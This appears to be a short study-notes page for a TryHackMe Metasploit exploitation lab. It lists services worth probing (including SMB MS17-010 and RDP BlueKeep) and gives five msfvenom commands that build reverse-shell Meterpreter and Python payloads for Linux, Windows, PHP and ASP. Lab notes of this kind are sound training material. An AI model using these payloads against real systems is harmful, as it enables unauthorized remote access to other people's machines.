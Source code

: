 # Metasploit: Exploitation

[Metasploit: Exploitation](https://tryhackme.com/room/metasploitexploitation)

Using Metasploit for scanning, vulnerability assessment and exploitation.

You may want to look for low-hanging fruits such as:
- `HTTP`: Could potentially host a web application where you can find vulnerabilities like SQL injection or Remote Code Execution (RCE). 
- `FTP`: Could allow anonymous login and provide access to interesting files. 
- `SMB`: Could be vulnerable to SMB exploits like MS17-010
- `SSH`: Could have default or easy to guess credentials
- `RDP`: Could be vulnerable to Bluekeep or allow desktop access if weak credentials were used.

## Payloads

Linux Executable and Linkable Format (elf)

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<10.10.X.X> LPORT=<XXXX> -f elf > rev_shell.elf
```

Windows

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<10.10.X.X> LPORT=<XXXX> -f exe > rev_shell.exe
```

PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<10.10.X.X> LPORT=<XXXX> -f raw > rev_shell.php
```

ASP

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<10.10.X.X> LPORT=<XXXX> -f asp > rev_shell.asp
```

Python

```bash
msfvenom -p cmd/unix/reverse_python LHOST=<10.10.X.X> LPORT=<XXXX> -f raw > rev_shell.py
```
